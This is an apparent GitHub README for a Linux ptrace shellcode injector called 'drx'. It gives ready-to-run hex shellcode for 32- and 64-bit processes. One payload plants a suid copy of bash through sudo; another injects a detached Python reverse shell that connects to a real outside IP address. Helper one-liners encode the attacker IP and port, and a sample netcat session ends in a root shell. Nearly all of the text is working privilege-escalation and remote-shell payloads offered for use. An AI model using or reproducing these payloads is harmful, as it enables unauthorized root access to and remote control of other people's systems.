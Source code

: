 # drx_ptrace_shellcode_injector
drx ptrace shellcode injector

## How to compile

```
gcc -o drx drx.c
```

## How to use

You can inject some shellcodes:

### Default builtin hello world shellcode

./drx PID

```
./drx 4940
```

### bash suid local privilege escalation via ptrace misconfiguration

Based from: https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

Execute: /bin/sh -c "/bin/echo | /usr/bin/sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | /usr/bin/sudo -S /usr/bin/chmod +s /tmp/bash >/dev/null 2>&1`"

For a 32 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x74\x2e\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x89\xc3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\xbf\x00\x00\x00\x00\xb8\x72\x00\x00\x00\xcd\x80\xe9\xbd\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x8d\x0c\x24\x8b\x1c\x24\x31\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

For a 64 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\xc5\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

### python reverse shell detached background: local privilege escalation via ptrace misconfiguration

https://github.com/David-Reguera-Garcia-Dreg/python_reverse_shell_detached_background/

Steps for **64 bit process**:

Generate IP str, for ex 51.195.45.136
```
export IP_ADDR=51.195.45.136
xxd -p <<< `printf '%02x' ${IP_ADDR//./ }`  | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x33\\x33\\x63\\x33\\x32\\x64\\x38\\x38

Generate PORT str, for ex 6868
```
xxd -p <<< 6868 | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x36\\x38\\x36\\x38

Replace in this command the **IP_HEX** and **PORT_HEX** with the PORT STR & IP STR output:

echo -n "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\xb8\\x39\\x00\\x00\\x00\\x0f\\x05\\x48\\x83\\xf8\\x00\\x74\\x25\\x48\\x89\\xc7\\xbe\\x00\\x00\\x00\\x00\\xba\\x00\\x00\\x00\\x00\\x41\\xba\\x00\\x00\\x00\\x00\\x41\\xb8\\x00\\x00\\x00\\x00\\xb8\\x3d\\x00\\x00\\x00\\x0f\\x05\\xe9\\x5f\\x02\\x00\\x00\\x6a\\x00\\xe8\\x0d\\x02\\x00\\x00\\x65\\x78\\x65\\x63\\x28\\x22\\x22\\x22\\x0a\\x69\\x6d\\x70\\x6f\\x72\\x74\\x20\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2c\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2c\\x6f\\x73\\x2c\\x73\\x79\\x73\\x0a\\x0a\\x70\\x69\\x64\\x72\\x67\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x70\\x69\\x64\\x72\\x67\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x63\\x68\\x64\\x69\\x72\\x28\\x22\\x2f\\x22\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x73\\x65\\x74\\x73\\x69\\x64\\x28\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x75\\x6d\\x61\\x73\\x6b\\x28\\x30\\x29\\x0a\\x0a\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x66\\x64\\x72\\x65\\x67\\x20\\x3d\\x20\\x6f\\x70\\x65\\x6e\\x28\\x22\\x2f\\x64\\x65\\x76\\x2f\\x6e\\x75\\x6c\\x6c\\x22\\x2c\\x20\\x22\\x77\\x22\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x3d\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x73\\x6f\\x63\\x6b\\x65\\x74\\x28\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x41\\x46\\x5f\\x49\\x4e\\x45\\x54\\x2c\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x53\\x4f\\x43\\x4b\\x5f\\x53\\x54\\x52\\x45\\x41\\x4d\\x29\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x63\\x6f\\x6e\\x6e\\x65\\x63\\x74\\x28\\x28\\x73\\x74\\x72\\x28\\x30\\x78\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31\\x29\\x2c\\x39\\x39\\x39\\x39\\x29\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x31\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x32\\x29\\x0a\\x0a\\x70\\x3d\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2e\\x63\\x61\\x6c\\x6c\\x28\\x5b\\x22\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x22\\x2c\\x22\\x2d\\x69\\x22\\x5d\\x29\\x0a\\x22\\x22\\x22\\x29\\x00\\xe8\\x03\\x00\\x00\\x00\\x2d\\x63\\x00\\xe8\\x0c\\x00\\x00\\x00\\x2f\\x62\\x69\\x6e\\x2f\\x70\\x79\\x74\\x68\\x6f\\x6e\\x00\\x48\\x8d\\x05\\x21\\x00\\x00\\x00\\x50\\x48\\x31\\xd2\\x48\\x89\\xe6\\x48\\x8d\\x3d\\x13\\x00\\x00\\x00\\xb8\\x3b\\x00\\x00\\x00\\x0f\\x05\\xb8\\x3c\\x00\\x00\\x00\\xbb\\x00\\x00\\x00\\x00\\x0f\\x05\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x75\\x64\\x6f\\x00\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90" | sed 's/\\x39\\x39\\x39\\x39/**PORT_HEX**/g' | sed 's/\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31/**IP_HEX**/g'

The output in  the last command is the generated shellcode

Now execute drx with target PID and the shellcode generated, ex with 6978 PID:

```
./drx 6978 "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\x5f\x02\x00\x00\x6a\x00\xe8\x0d\x02\x00\x00\x65\x78\x65\x63\x28\x22\x22\x22\x0a\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x2c\x73\x79\x73\x0a\x0a\x70\x69\x64\x72\x67\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x70\x69\x64\x72\x67\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x6f\x73\x2e\x63\x68\x64\x69\x72\x28\x22\x2f\x22\x29\x0a\x0a\x6f\x73\x2e\x73\x65\x74\x73\x69\x64\x28\x29\x0a\x0a\x6f\x73\x2e\x75\x6d\x61\x73\x6b\x28\x30\x29\x0a\x0a\x64\x72\x67\x70\x69\x64\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x64\x72\x67\x70\x69\x64\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x66\x64\x72\x65\x67\x20\x3d\x20\x6f\x70\x65\x6e\x28\x22\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x22\x2c\x20\x22\x77\x22\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x64\x72\x65\x67\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x0a\x0a\x73\x64\x72\x65\x67\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x73\x74\x72\x28\x30\x78\x33\x33\x63\x33\x32\x64\x38\x38\x29\x2c\x36\x38\x36\x38\x29\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x0a\x0a\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x2c\x22\x2d\x69\x22\x5d\x29\x0a\x22\x22\x22\x29\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x0c\x00\x00\x00\x2f\x62\x69\x6e\x2f\x70\x79\x74\x68\x6f\x6e\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

And done, you get a root shell from a sudo shell user

```
dreg@51.195.45.136:~# nc -lvp 6868
listening on [any] 6868 ...
connect to [51.195.45.136] from fr33project.org [51.195.45.136] 38672
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```



